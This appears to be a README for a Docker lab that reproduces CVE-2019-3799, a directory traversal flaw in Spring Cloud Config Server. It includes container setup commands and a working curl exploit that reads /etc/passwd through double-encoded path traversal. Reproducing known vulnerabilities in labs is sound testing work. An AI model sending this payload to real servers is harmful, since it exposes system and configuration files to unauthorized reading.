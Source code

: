 # CVE-2019-3799: Spring Cloud Config Server - Directory Traversal Vulnerability

## About

Spring Cloud Config, versions 2.1.x prior to 2.1.2, versions 2.0.x prior to 2.0.4, and versions 1.4.x prior to 1.4.6, and older unsupported versions allow applications to serve arbitrary configuration files through the spring-cloud-config-server module. A malicious user, or attacker, can send a request using a specially crafted URL that can lead a directory traversal attack.

More info: https://github.com/mpgn/CVE-2019-3799

## PoC

1. Start a container

```bash
docker build . -t cve-2019-3799
docker run -it -p 8888:8888 cve-2019-3799
```

2. Exploit

```
curl http://localhost:8888/foo/default/master/..%252F..%252F..%252F..%252Fetc%252fpasswd
```



## Credit

* This image is based heavily off of: https://github.com/hyness/spring-cloud-config-server
* Sample config repo copied from: https://github.com/spring-cloud-samples/config-repo
